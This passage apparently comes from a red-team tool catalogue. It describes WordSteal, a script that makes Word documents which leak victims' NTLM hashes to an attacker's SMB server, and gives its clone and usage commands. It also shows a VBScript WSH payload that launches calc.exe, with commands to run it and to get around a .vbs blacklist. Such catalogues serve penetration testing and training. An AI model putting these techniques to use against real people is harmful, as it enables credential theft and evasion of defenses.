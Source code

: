 ```
  -sha256
        Provides the SHA256 value of the loaders (This is useful for tracking)
```

![image](https://user-images.githubusercontent.com/100603074/216729312-6e03f5d2-29a7-4190-8187-daecebfc6a9c.png)

*Image used from https://www.blackhatethicalhacking.com/tools/freeze/*

### [🔙](#tool-list)[WordSteal](https://github.com/0x09AL/WordSteal)

This script will create a Microsoft Word Document with a remote image, allowing for the capture of NTML hashes from a remote victim endpoint.

Microsoft Word has the ability to include images from remote locations, including a remote image hosted on an attacker controlled SMB server. This gives you the opportunity to listen for, and capture, NTLM hashes that are sent when an authenticated victim opens the Word document and renders the image. 

**Install:** 

```
git clone https://github.com/0x09AL/WordSteal
cd WordSteal
```

**Usage:** 

```bash
# Generate document containing 'test.jpg' and start listener
./main.py 127.0.0.1 test.jpg 1

# Generate document containing 'test.jpg' and do not start listener
./main.py 127.0.0.1 test.jpg 0\n
```

![image](https://user-images.githubusercontent.com/100603074/217653886-09bf9eba-a117-47b9-99b4-12fb2d73ef44.png)

*Image used from https://pentestit.com/wordsteal-steal-ntlm-hashes-remotely/*

### [🔙](#tool-list)WSH

**Creating payload:** 

```vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

**Execute:** 

```bash
wscript payload.vbs
cscript.exe payload.vbs
wscript /e:VBScript payload.txt //If .vbs files are blacklisted
```
